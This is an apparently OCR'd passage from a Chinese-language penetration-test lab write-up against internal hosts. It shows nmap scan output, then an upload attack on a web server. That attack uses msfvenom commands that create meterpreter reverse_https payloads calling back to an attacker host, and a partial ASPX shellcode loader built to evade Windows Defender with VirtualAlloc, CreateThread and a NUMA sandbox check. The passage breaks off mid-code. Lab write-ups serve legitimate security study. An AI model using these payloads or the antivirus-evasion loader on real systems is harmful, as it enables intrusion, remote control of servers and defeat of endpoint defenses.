 Host script results:
|_clock-skew: mean: 26s, deviation: 0s, median: 26s

TRACEROUTE (using proto 1/icmp)
HOP RTT      ADDRESS
1   66.34 ms ip-192-168-49-1.us-west-1.compute.internal (192.168.49.1)
2   66.48 ms ip-192-168-96-132.us-west-1.compute.internal (192.168.96.132)

Post-scan script results:
| clock-skew: 
|   26s: 
|     192.168.96.131 (ip-192-168-96-131.us-west-1.compute.internal)
|     192.168.96.130 (ip-192-168-96-130.us-west-1.compute.internal)
|_    192.168.96.132 (ip-192-168-96-132.us-west-1.compute.internal)
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 3 IP addresses (3 hosts up) scanned in 79.01 seconds

### Web 攻击
发现192.168.96.132 开放web服务
上传test.txt 发现上传路径 192.168.96.132/upload/test.txt 
```bash
msfvenom -p windows/x64/meterpreter/reverse_https lhost=192.168.49.96 lport=443 -f aspx -o met.aspx
```
上传发现server存在windows defender杀软，故使用helper对shellcode进行转换
```bash
 msfvenom -p windows/x64/meterpreter/reverse_https lhost=192.168.49.96 lport=8443 -f csharp
```
### 免杀制作

使用helper.exe 加密

```aspx
<%@ Page Language="C#" AutoEventWireup="true" %>
<%@ Import Namespace="System.IO" %>
<script runat="server">
    private static Int32 MEM_COMMIT=0x1000;
    private static IntPtr PAGE_EXECUTE_READWRITE=(IntPtr)0x40;

    [System.Runtime.InteropServices.DllImport("kernel32")]
    private static extern IntPtr VirtualAlloc(IntPtr lpStartAddr,UIntPtr size,Int32 flAllocationType,IntPtr flProtect);

    [System.Runtime.InteropServices.DllImport("kernel32")]
    private static extern IntPtr CreateThread(IntPtr lpThreadAttributes,UIntPtr dwStackSize,IntPtr lpStartAddress,IntPtr param,Int32 dwCreationFlags,ref IntPtr lpThreadId);

    [System.Runtime.InteropServices.DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    private static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress,uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);
    [System.Runtime.InteropServices.DllImport("kernel32.dll")]
    private static extern IntPtr GetCurrentProcess();

    protected void Page_Load(object sender, EventArgs e)
    {
        IntPtr mem = VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000,0x4, 0);
        if(mem == null)
        {
            return;
        }
```